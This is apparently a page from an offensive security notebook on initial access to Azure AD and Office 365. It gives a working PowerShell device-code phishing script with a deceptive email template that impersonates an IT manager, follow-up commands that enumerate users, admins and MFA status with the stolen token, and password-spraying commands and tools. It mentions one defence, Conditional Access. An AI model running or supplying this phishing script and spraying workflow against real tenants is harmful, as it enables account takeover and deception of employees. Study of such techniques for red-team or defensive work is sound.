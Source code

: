# Initial Access

### Device Code Authentication Method - Phishing Attack <a href="#device-code-authentication-method-phishing-attack" id="device-code-authentication-method-phishing-attack"></a>

&#x20;

<img src="../../.gitbook/assets/image (9).png" alt="" data-size="original">

The basic idea to utilize device code authentication for phishing is the following.

1. An attacker connects to /devicecode endpoint and sends **client\_id** and **resource**
2. After receiving **verification\_uri** and **user\_code**, create an email containing a link to **verification\_uri** and **user\_code**, and send it to the victim.
3. Victim clicks the link, provides the code and completes the sign in.
4. The attacker receives **access\_token** and **refresh\_token** and can now mimic the victim.

Run the script below;&#x20;

Which is taken from o365 blog in the reference;

```
$body=@{
	"client_id" = "d3590ed6-52b3-4102-aeff-aad2292ab01c"
	"resource" =  "https://graph.windows.net"
}


$authResponse = Invoke-RestMethod -UseBasicParsing -Method Post -Uri "https://login.microsoftonline.com/common/oauth2/devicecode?api-version=1.0" -Body $body
$user_code =    $authResponse.user_code

######################################################################## 
########################################################################
Get-AADIntGlobalAdmins -UserPrincipalName "user@yourexample" -DisplayName "Exercise"

# Invoke the request to get device and user codes
# Send to attacker
# https://microsoft.com/devicelogin login

#Hi!,

#This is an urgent situation. You'r device is affected by malware and we are taking some malicious logs
#from your device. So we have deleted your device from our Azure AD resources.
#By using the code:  you need to reregister to https://microsoft.com/devicelogin and 
#resign all applications again.

#Your IT manager



########################################################################
########################################################################
# Already sent a phishing attack to victim now we are going to next step.

$continue = $true
$interval = $authResponse.interval
$expires =  $authResponse.expires_in

# Create body for authentication requests

$body=@{
	"client_id" =  "d3590ed6-52b3-4102-aeff-aad2292ab01c"
	"grant_type" = "urn:ietf:params:oauth:grant-type:device_code"
	"code" =       $authResponse.device_code
	"resource" =   "https://graph.windows.net"
}

# Loop while authorisation is pending or until timeout exceeded

while($continue)
{
	Start-Sleep -Seconds $interval
	$total += $interval

	if($total -gt $expires)
	{
		Write-Error "Timeout occurred"
		return
	}
				
	# Try to get the response. Will give 40x while pending so we need to try&catch

	try
	{
		$response = Invoke-RestMethod -UseBasicParsing -Method Post -Uri "https://login.microsoftonline.com/Common/oauth2/token?api-version=1.0 " -Body $body -ErrorAction SilentlyContinue
	}
	catch
	{
		# This is normal flow, always returns 40x unless successful

		$details=$_.ErrorDetails.Message | ConvertFrom-Json
		$continue = $details.error -eq "authorization_pending"
		Write-Host $details.error

		if(!$continue)
		{
			# Not pending so this is a real error

			Write-Error $details.error_description
			return
		}
	}

	# If we got response, all okay!

	if($response)
	{
		break # Exit the loop

	}
}


#Then start running these commands 
# Enumerate AAD

Get-AADIntUsers -AccessToken $response.access_token | select displayname
Get-AADIntGlobalAdmins -AccessToken $response.access_token
Get-AADIntTenantID -AccessToken $response.access_token
Get-AADIntTenantDetails -AccessToken $response.access_token
get-aadintusermfa -AccessToken $response.access_token
```



**Limitation from Attacker Perspective**

* Victim should authenticate in 15 min
* Attackers logining to system so their logs will be there.

**Preventing**

* Conditional Access (CA)



**Reference**

[![](https://aadinternals.com/images/favicon-16x16.png)Introducing a new phishing technique for compromising Office 365 accounts](https://o365blog.com/post/phishing/)

### Password Spray  <a href="#password-spray" id="password-spray"></a>

After finding users on Azure AD we will try to login into their accounts this can be really noisy

so password spraying can be tried at that time. But we should be careful about not doing so many requests since windows blocking and also there is so much noise on the SIEM side.

`PS C:\Tools\MSOLSpray-master> Import-Module .\MSOLSpray.ps1`&#x20;

`PS C:\Tools\MSOLSpray-master> Invoke-MSOLSpray -UserList .\validemails.txt -Password [PASSWORD] -Verbose`

Here is the some tools for testing it.

* [MSOLSpray](https://github.com/dafthack/MSOLSpray) - A password spraying tool for Microsoft Online accounts (Azure/O365)
* [MSOLSpray.py](https://github.com/MartinIngesen/MSOLSpray) - A Python version of the MSOLSpray password spraying tool for Microsoft Online accounts (Azure/O365)
* [o365spray](https://github.com/0xZDH/o365spray) - Username enumeration and password spraying tool aimed at Microsoft O365
* [MFASweep](https://github.com/dafthack/MFASweep) - A tool for checking if MFA is enabled on multiple Microsoft Services Resources
* [adconnectdump](https://github.com/fox-it/adconnectdump) - Dump Azure AD Connect credentials for Azure AD and Active Directory
